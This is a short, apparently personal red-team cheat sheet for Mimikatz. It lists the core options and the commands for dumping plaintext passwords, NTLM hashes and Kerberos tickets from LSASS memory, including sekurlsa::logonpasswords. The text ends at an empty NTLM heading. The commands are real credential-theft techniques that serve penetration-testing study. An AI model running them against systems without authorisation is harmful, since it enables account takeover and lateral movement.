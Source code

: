 # Index
- [[Red Team/4. Tool Guides/0. Incomplete/Tool Guides]]

# Mimikatz

Mimikatz is a powerful post-exploitation tool that can extract plaintext passwords, hash, PIN codes, and Kerberos tickets from memory. It is widely used in penetration testing and red teaming activities. This ultimate edition cheat sheet provides an exhaustive list of Mimikatz commands, detailed explanations, and advanced usage scenarios.

## Basic Syntax
```bash
mimikatz [options] [module] [command]
```

## Core Options
- `mimikatz.exe`: Starts the Mimikatz interactive shell.
- `mimikatz.exe <module> <command>`: Executes a specific command directly.
- `privilege::debug`: Grants debug privileges, required for most Mimikatz operations.
- `token::elevate`: Impersonates a higher privilege token.
- `token::whoami`: Displays the current token and its associated privileges.
- `log <filename>`: Logs Mimikatz output to a specified file.
- `privilege::debug`: Elevates Mimikatz to have debug privileges, which are required for most operations.
- `version`: Displays the version of Mimikatz.
- `exit`: Exits Mimikatz.

# Commands and Use Cases

## Password Extracting Techniques

Mimikatz excels at extracting various forms of credentials from a Windows system. Below are the primary methods:

#### Extracting Plaintext Passwords

- **LSASS Process**: Extracts plaintext passwords, NTLM hashes, and Kerberos tickets from the `lsass.exe` process.
  ```bash
  sekurlsa::logonpasswords
  ```
- **Dump Passwords from a Specific User**: Extracts passwords for a specific user.
  ```bash
  sekurlsa::logonpasswords -user:<username>
  ```

#### Extracting NTLM Hashes
